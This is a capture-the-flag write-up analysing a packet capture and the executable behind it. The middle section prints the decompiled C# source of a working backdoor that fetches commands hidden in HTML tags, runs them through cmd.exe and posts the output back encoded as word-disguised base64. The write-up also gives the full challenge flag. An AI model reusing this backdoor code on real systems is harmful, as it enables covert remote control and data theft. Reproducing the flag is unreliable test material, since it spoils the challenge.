








# WRITE_UP #

## FISHY HTTP ##

### 1. Analysis ###
* **Given:** a pcapng file named `sustraffic`, and an exe file named `smphost`.
* **Description:** I found a suspicious program on my computer making HTTP requests to a web server. Please review the provided traffic capture and executable file for analysis. (Note: Flag has two parts)
* **Hints:**   
    * No hints are given 

### 2. Investigation ###
#### there's only ONE fish in my sea ####

Firstly, after opening the pcapng, I investigated the **Protocol Hierarchy** to find the most sus protocol, however as you can see the `TCP` accounts for 100% packets so we need to fully focus on the `TCP stream`.



In `TCP stream 0`, we got a **GET** request and the server responded with a `html` text looks like this:
```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>HTML Web Server</title>
</head>
<body><button>leaf tree glasses uniform guitar tiger umbrella book</button>
<button>panda universe quartz laptop</button>
<ol><li>rabbit jewel avocado sun plane</li></ol>
<div>house ball elephant trumpet fence mango fire hedgehog</div>
<ol><li>jar garden</li></ol>
<blockquote>mango yucca yurt bird lion</blockquote>
<ol><li>ball question apple necklace penguin zone xanthan quadrilateral</li></ol>
<h1>ice universe car tooth castle</h1>
<ol><li>notebook popcorn flag helicopter ant mailbox</li></ol>
<b>dinosaur door octopus</b>
<ol><li>mouse pencil grape quill pear utensil quiver</li></ol>
<span>utensil elephant grape cookie apple heart yucca knight anchor</span>
</body>
</html>
```
Sounds like a random poem but we need this to solve for part 1 of the flag, now let it rest here a little bit.

In `stream 1`, we got a **POST** request, this time the server responded with only a text string:



However, if you look close enough, we can see a very interesting `=` at the very end of the text, so I guessed this maybe a base64 string somehow, and if you look closer even more, you can see the first character of each word seems a little off.

So I wrote a C script to extract only the first character of each word:
```c
#include <stdio.h>
#include <string.h>
#include <ctype.h>
#include <stdlib.h>

int main()
{
    char *str = calloc(100000000, sizeof(char));
    strcpy(str, "duck 2 lock unicorn Zebra Ghost 9 3 car yak 1 pineapple bird notebook Nut 0 Yak Wand 5 jigsaw Xylophone Helicopter Bottle hat astronaut 2 Necklace 5 Yawn mushroom Video yak Yodel microphone 9 0 Door Question onion =");
    char *str2 = calloc(100000000, sizeof(char));
    int len = strlen(str);
    int count = 0;
    for(int i = 0; i < len; i++)
    {
        if(i==0 || isblank(str[i-1])) str2[count++] = str[i];
    }
    printf("\n%s", str2);

    return 0;
}
```
The result looks like this:



Using `CyberChef`, the decoded string is: `windows-instanc\pakcyberbot`, although it gives us almost nothing but we prove that the first character method works.

I do the same thing with `stream 3`, `stream 5` and `stream 7`. So `stream 3` and `stream 7` don't give us much, but after decoding the `stream 5`, we got the second part of the flag:



part 2 of the flag is: `h77P_s73417hy_revSHELL}` 

#### I DON'T WANT UR BODY ####

After decoding all the TCP stream that contains the base64 string, I tried something new with the `smphost.exe`. Loading the file to **Detect it Easy**, this file mostly written in C++ and C#, so I opened it by **dotPeek**:




After some searching, I found `Program` written in C# in `MyProject` BCL.  



<details>
<summary>Click to see the code</summary>

```c#
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.IO;
using System.Net.Http;
using System.Text;
using System.Text.RegularExpressions;
using System.Threading.Tasks;

#nullable enable
namespace MyNamespace;

internal class Program
{
  private static Dictionary<string, string> tagHex;

  private static async Task Main(string[] args)
  {
    if (args.Length < 2)
    {
      Console.WriteLine("Usage: program.exe <IPAddress> <Port>");
    }
    else
    {
      string url = $"http://{args[0]}:{args[1]}/";
      string[] strArray = Encoding.UTF8.GetString(Convert.FromBase64String("YXBwbGUKYWlycGxhbmUKYW50CmF2b2NhZG8KYXJyb3cKYXN0cm9uYXV0CmFsYXJtCmFuY2hvcgphY3JvYmF0CmFsYnVtCmJhbmFuYQpiYWxsCmJvb2sKYnV0dGVyZmx5CmJpcmQKYmVhY2gKYmFza2V0CmJpY3ljbGUKYm90dGxlCmJlYXIKY2F0CmNhcgpjYWtlCmNsb3VkCmNhbmRsZQpjb21wdXRlcgpjb29raWUKY2FtZXJhCmNsb3duCmNhc3RsZQpkb2cKZHVjawpkb29yCmRyYWdvbgpkb2xwaGluCmRpYW1vbmQKZHJ1bQpkZXNrCmRvbGwKZGlub3NhdXIKZWxlcGhhbnQKZWdnCmVhZ2xlCmVhcnRoCmVudmVsb3BlCmVuZ2luZQplbGYKZXJhc2VyCmVzY2FsYXRvcgplYXNlbApmaXNoCmZsb3dlcgpmcm9nCmZpcmUKZm94CmZsYWcKZnJ1aXQKZmVhdGhlcgpmZW5jZQpmbGFzaGxpZ2h0CmdyYXBlCmd1aXRhcgpnbG9iZQpnYW1lCmdvYXQKZ2hvc3QKZ2xhc3NlcwpnYXJkZW4KZ2VtCmdpZnQKaG91c2UKaGF0CmhlYXJ0CmhvcnNlCmhhbW1lcgpoZWxpY29wdGVyCmhvbmV5CmhhbWJ1cmdlcgpob3JuCmhlZGdlaG9nCmljZS1jcmVhbQppZ2xvbwppc2xhbmQKaW5rCmluc2VjdAppcm9uCmljZQppZ3VhbmEKaW52aXRhdGlvbgppbnN0cnVtZW50CmphY2tldApqZWxseWZpc2gKamFyCmp1bmdsZQpqdWljZQpqaWdzYXcKanVtcApqZXdlbApqZXQKamFjay1vLWxhbnRlcm4Ka2FuZ2Fyb28Ka2l0ZQprZXkKa2luZwprb2FsYQprYXlhawprZXR0bGUKa2l0Y2hlbgprZXlib2FyZAprbmlnaHQKbGVtb24KbGlvbgpsYWRkZXIKbGFtcApsZWFmCmxpZ2h0aG91c2UKbG9nCmxhcHRvcApsb2NrCmxhZHlidWcKbWFuZ28KbW9ua2V5Cm1vb24KbW91bnRhaW4KbXVzaHJvb20KbW91c2UKbWFpbGJveAptYWduZXQKbWljcm9waG9uZQptYXNrCm5vdGVib29rCm5lc3QKbmFpbApuZXQKbm9zZQpudXQKbmluamEKbmVja2xhY2UKbmV3c3BhcGVyCm5vb2RsZXMKb3JhbmdlCm93bApvY2VhbgpvY3RvcHVzCm9uaW9uCm92ZW4Kb3lzdGVyCm90dGVyCm9saXZlCm9ybmFtZW50CnBpbmVhcHBsZQpwZWFyCnBpenphCnB1bXBraW4KcGVuZ3VpbgpwZW5jaWwKcGxhbmUKcHlyYW1pZApwYW5kYQpwb3Bjb3JuCnF1ZWVuCnF1aWx0CnF1ZXN0aW9uCnF1aWxsCnF1YWlsCnF1aXZlcgpxdWFydHoKcXVldWUKcXVhcnRlcmJhY2sKcXVhZHJpbGF0ZXJhbApyYWJiaXQKcmFpbmJvdwpyb2JvdApyb2NrZXQKcmluZwpyYWNjb29uCnJ1bGVyCnJvc2UKcmFkaW8KcnVnCnN0YXIKc3VuCnNuYWtlCnNvY2sKc3Bvb24Kc3F1aXJyZWwKc2hpcApzbm93bWFuCnNwaWRlcgpzYW5kd2ljaAp0YWJsZQp0cmVlCnRpZ2VyCnR1cnRsZQp0cmFpbgp0ZWxlc2NvcGUKdG9vdGgKdHJ1bXBldAp0b21hdG8KdGFtYm91cmluZQp1bWJyZWxsYQp1bmljb3JuCnVuaWZvcm0KdXRlbnNpbAp1bml2ZXJzZQp1bmljeWNsZQp1a3VsZWxlCnVuZGVyZ3JvdW5kCnVybgp1cGhvbHN0ZXJlcgp2aW9saW4Kdm9sY2Fubwp2YW4KdmVzdAp2ZWdldGFibGUKdmluZQp2YWN1dW0KdmFzZQp2dWx0dXJlCnZpZGVvCndhdGVybWVsb24Kd2hhbGUKd29ybQp3YWdvbgp3YW5kCndpbmRtaWxsCndhdGNoCndpbmcKd2FsbGV0CndoZWVsCnh5bG9waG9uZQp4LXJheQp4ZWJlYwp4eWxpdG9sCnhlbm9uCnhhbnRoYW4KeGVyb3Npcwp4ZXJvcGh5dGUKeHlsdWxvc2UKeG1hcwp5ZWxsb3cKeWFjaHQKeW9ndXJ0CnlvbGsKeWFrCnlhd24KeXVjY2EKeW9kZWwKeXVydAp5ZXcKemVicmEKemlwcGVyCnpvbwp6aWd6YWcKemVybwp6b21iaWUKemFwCnplbGRhCnpvbmUKemVu")).Trim().Split(new string[3]
      {
        "\r\n",
        "\n",
        "\r"
      }, (StringSplitOptions) 1);
      Dictionary<string, List<string>> wordsDict = new Dictionary<string, List<string>>();
      foreach (string str1 in strArray)
      {
        char ch = str1[0];
        if (wordsDict.ContainsKey(ch.ToString()))
        {
          wordsDict[ch.ToString()].Add(str1.Substring(1));
        }
        else
        {
          Dictionary<string, List<string>> dictionary = wordsDict;
          string str2 = ch.ToString();
          List<string> stringList = new List<string>();
          stringList.Add(str1.Substring(1));
          dictionary[str2] = stringList;
        }
      }
      while (true)
        await SendRequest();

      string EncodeData(string data)
      {
        string base64String = Convert.ToBase64String(Encoding.UTF8.GetBytes(data));
        StringBuilder stringBuilder = new StringBuilder();
        Random random = new Random();
        foreach (char ch in base64String)
        {
          if (wordsDict.ContainsKey(ch.ToString().ToLower()))
          {
            string str = wordsDict[ch.ToString().ToLower()][random.Next(0, 10)];
            stringBuilder.Append(ch);
            stringBuilder.Append(str);
            stringBuilder.Append(" ");
          }
          else
          {
            stringBuilder.Append(ch);
            stringBuilder.Append(" ");
          }
        }
        return stringBuilder.ToString();
      }

      async Task SendRequest()
      {
        try
        {
          using (HttpClient client = new HttpClient())
          {
            client.Timeout = TimeSpan.FromSeconds(180.0);
            HttpResponseMessage async = await client.GetAsync(url);
            async.EnsureSuccessStatusCode();
            string str = DecodeData(await async.Content.ReadAsStringAsync());
            using (Process process = new Process())
            {
              process.StartInfo.FileName = "cmd.exe";
              process.StartInfo.Arguments = "/c " + str;
              process.StartInfo.RedirectStandardOutput = true;
              process.StartInfo.UseShellExecute = false;
              process.Start();
              process.WaitForExit();
              string data = ((TextReader) process.StandardOutput).ReadToEnd();
              if (string.op_Equality(data, ""))
                data = "succeed";
              FormUrlEncodedContent urlEncodedContent = new FormUrlEncodedContent((IEnumerable<KeyValuePair<string, string>>) new KeyValuePair<string, string>[2]
              {
                new KeyValuePair<string, string>("Name", "Test User"),
                new KeyValuePair<string, string>("feedback", EncodeData(data))
              });
              (await client.PostAsync(url + "submit_feedback", (HttpContent) urlEncodedContent)).EnsureSuccessStatusCode();
            }
          }
        }
        catch (Exception ex)
        {
          Console.WriteLine("Error: " + ex.Message);
        }
      }
    }

    static string DecodeData(string data)
    {
      StringBuilder stringBuilder = new StringBuilder();
      foreach (Match match in new Regex("<(\\w+)[\\s>]", (RegexOptions) 16 /*0x10*/).Matches(((Capture) new Regex("<body>(.*?)</body>", (RegexOptions) 16 /*0x10*/).Match(data).Groups[1]).Value.Split(new string[1]
      {
        Environment.NewLine
      }, (StringSplitOptions) 1)[0]))
      {
        if (((Group) match).Success)
        {
          GroupCollection groups = match.Groups;
          if (string.op_Inequality(((Capture) groups[1]).Value, "li"))
            stringBuilder.Append(Program.tagHex[((Capture) groups[1]).Value]);
        }
      }
      return HexStringToBytes(stringBuilder.ToString());
    }

    static string HexStringToBytes(string hex)
    {
      byte[] numArray = new byte[hex.Length / 2];
      for (int index = 0; index < hex.Length; index += 2)
        numArray[index / 2] = Convert.ToByte(hex.Substring(index, 2), 16 /*0x10*/);
      return Encoding.ASCII.GetString(numArray);
    }
  }

  static Program()
  {
    Dictionary<string, string> dictionary = new Dictionary<string, string>();
    dictionary.Add("cite", "0");
    dictionary.Add("h1", "1");
    dictionary.Add("p", "2");
    dictionary.Add("a", "3");
    dictionary.Add("img", "4");
    dictionary.Add("ul", "5");
    dictionary.Add("ol", "6");
    dictionary.Add("button", "7");
    dictionary.Add("div", "8");
    dictionary.Add("span", "9");
    dictionary.Add("label", "a");
    dictionary.Add("textarea", "b");
    dictionary.Add("nav", "c");
    dictionary.Add("b", "d");
    dictionary.Add("i", "e");
    dictionary.Add("blockquote", "f");
    Program.tagHex = dictionary;
  }
}
```
</details>

So the light was turned on, this is the boss of this challenge. This program will provide the arraystring, encode, decode function for the TCP stream.

First, the program prepared lots of English words and stored them in `strArray` by decode the long base64 string. Then it creates a dictionary with a `key-value` whose `key` is the first letter of the word, and the `value` is the leftovers.

Next the `DecodeData` function, the malware use another dictionary called `tagHex`, which mapping the normal html tags such as `cite`, `button` to hex character. This function will capture all tags after the `<body>` and before `</body>`, except for `<li>`, then mapping to hex string, and then from hex string to text to start a cmd process by calling `cmd.exe /c`.

* I find this kinda interesting to hide the command in the tag but not the content inside the html

Next in the `EncodeData` function, it converted the `data` here is the output of the attackers' commands to a base64 string, next it loop through all characters, with each one, the function will find a random word in `wordsDict` that the `key` is similar to it, and append the b64 character to that word leftover for a complete word. (This is how we decode to get the above flag).

Now that we have the key to open the treasure, so I wrote a C script to decode the html tags:
```c
#include <stdio.h>
#include <string.h>
#include <ctype.h>
#include <stdlib.h>

#define MAX 1000000

// Hex to Ascii
void hextoascii(int *h_idx, const char *hex_str, char *cmd)
{
    for (int i = 0; i < *h_idx; i += 2)
    {
        unsigned int val;
        sscanf(&hex_str[i], "%2x", &val);
        cmd[i / 2] = (char)val;
    }
}

int main()
{
    char *html = calloc(MAX, sizeof(char));
    char *hex_str = calloc(MAX, sizeof(char));
    char *cmd = calloc(MAX, sizeof(char));

    int h_idx = 0;

    FILE *f = fopen("test.txt", "r");
    if (f == NULL)
    {
        printf("Not found\n");
        return 1;
    }
    fread(html, 1, MAX, f);
    fclose(f);

    char *current_pos = html;
    // Find payload
    while (1)
    {
        char *start = strstr(current_pos, "<body>");
        if (!start)
            break;
        char *end = strstr(start, "</body>");
        if (!end)
            break;

        char *p = start + 6; // Skipping <body>
        while (p < end)
        {
            // Find '<'
            p = strchr(p, '<');
            if (!p || p >= end)
                break;

            p++; // Skipping '<'
            if (*p == '/')
                continue; // Skipping close tags

            char tag[32] = {0};
            int t_idx = 0;
            while (*p != ' ' && *p != '>' && t_idx < 31)
            {
                tag[t_idx++] = tolower(*p);
                p++;
            }
            tag[t_idx] = '\0';

            // Mapping Dictionary
            if (strcmp(tag, "li") != 0)
            {
                if (strcmp(tag, "cite") == 0)
                    hex_str[h_idx++] = '0';
                else if (strcmp(tag, "h1") == 0)
                    hex_str[h_idx++] = '1';
                else if (strcmp(tag, "p") == 0)
                    hex_str[h_idx++] = '2';
                else if (strcmp(tag, "a") == 0)
                    hex_str[h_idx++] = '3';
                else if (strcmp(tag, "img") == 0)
                    hex_str[h_idx++] = '4';
                else if (strcmp(tag, "ul") == 0)
                    hex_str[h_idx++] = '5';
                else if (strcmp(tag, "ol") == 0)
                    hex_str[h_idx++] = '6';
                else if (strcmp(tag, "button") == 0)
                    hex_str[h_idx++] = '7';
                else if (strcmp(tag, "div") == 0)
                    hex_str[h_idx++] = '8';
                else if (strcmp(tag, "span") == 0)
                    hex_str[h_idx++] = '9';
                else if (strcmp(tag, "label") == 0)
                    hex_str[h_idx++] = 'a';
                else if (strcmp(tag, "textarea") == 0)
                    hex_str[h_idx++] = 'b';
                else if (strcmp(tag, "nav") == 0)
                    hex_str[h_idx++] = 'c';
                else if (strcmp(tag, "b") == 0)
                    hex_str[h_idx++] = 'd';
                else if (strcmp(tag, "i") == 0)
                    hex_str[h_idx++] = 'e';
                else if (strcmp(tag, "blockquote") == 0)
                    hex_str[h_idx++] = 'f';
            }
        }
        hextoascii(&h_idx, hex_str, cmd);
        printf("Attacker's Command: %s\n", cmd);
        current_pos = end + 7;

        // Reset for the next cmd
        h_idx = 0;
        memset(hex_str, 0, MAX); 
        memset(cmd, 0, MAX);
    }

    return 0;
}
```
That script gives me the first part of the flag: `HTB{Th4ts_d07n37_`



### 3. Solution ###
1. **Result:** The flag is `HTB{Th4ts_d07n37_h77P_s73417hy_revSHELL}`


